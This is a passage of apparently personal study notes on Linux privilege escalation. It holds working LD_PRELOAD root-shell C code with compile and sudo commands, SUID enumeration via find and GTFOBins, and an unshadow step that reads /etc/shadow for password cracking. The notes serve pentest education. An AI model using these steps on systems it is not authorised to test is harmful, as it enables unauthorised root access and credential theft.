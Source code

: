 		  **If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run.** Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.  
		- The steps of this privilege escalation vector can be summarized as follows:
			- Check for LD_PRELOAD (with the env_keep option) => use `sudo -l`
			- Write a simple C code compiled as a share object (.so extension) file
			- Run the program with **sudo** rights and the LD_PRELOAD option pointing to our .so file
		- The C code will simply spawn a root shell and can be written as follows:
		  ```c
		  #include <stdio.h>
		  #include <sys/types.h>
		  #include <stdlib.h>
		  
		  void _init() {
		    unsetenv("LD_PRELOAD");  
		    setgid(0);  
		    setuid(0);  
		    system("/bin/bash");  
		    }
		  ```
		- We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters:
		  ```bash
		  gcc -fPIC -shared -o shell.so shell.c -nostartfiles
		  ```
		- We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.
			- We need to run the program by specifying the LD_PRELOAD option, as follows:
			  ```bash
			  sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
			  ```
			- This will result in a shell spawn with root privileges.
- ## SUID
	- Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions.
	- By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.
	- You will notice these files have an “s” bit set showing their special permission level.
	  ```bash
	  find / -type f -perm -04000 -ls 2>/dev/null
	  ```
	  will **list files that have SUID or SGID bits set**.  
	- **A good practice would be to compare** executables on this list with [GTFOBins](https://gtfobins.github.io). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list `https://gtfobins.github.io/#+suid`.
	- If able to get `passwd` file and `shadow` file from `/etc/`. You can 
	  ```bash
	  unshadow passwd.txt shadow.txt > passwords.txt
	  ```
	    